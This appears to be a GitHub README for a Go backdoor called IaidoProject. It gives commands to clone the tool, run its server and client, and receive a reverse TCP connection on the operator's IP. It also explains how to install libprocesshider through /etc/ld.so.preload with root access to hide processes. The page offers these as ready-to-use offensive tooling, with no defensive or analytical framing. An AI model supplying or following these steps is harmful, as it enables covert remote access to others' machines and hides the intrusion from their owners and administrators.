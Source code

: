 <p align="center">
  <img src="https://vsoch.github.io/assets/images/posts/learning-go/gophercises_jumping.gif" width="420" height="440">
</p>

       	                         A Simple Backdoor Written in Go

---

<p align="center">
	How to Install?
</p>

```bash
git clone https://github.com/T0k1To/IaidoProject
```
---

<p align="center">
	Server Usage:
</p>

```bash
cd IaidoProject
```
```bash
go run IaidoSV.go
```
---

<p align="center">
	Client Usage:
</p>

```bash
cd IaidoProject
```
```bash
cd bin
```
```bash
./Iaido
```
- Wait to load and insert your ip to receive the reverse tcp connection and enjoy =]
---

<p align="center">
	What is processhider.c?
</p>

```This is a simple C code to hide a process in Linux using ld preloader by Gianluca Borello!```

<p align="center">
	processhider.c Usage:
</p>

`With root proceed:`

```bash
cd IaidoProject
```
```bash
make
```
```bash
sudo mv libprocesshider.so /usr/local/lib/
```
```bash
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

- References and Credits:
  - https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/

  - https://github.com/gianlucaborello/libprocesshider

---
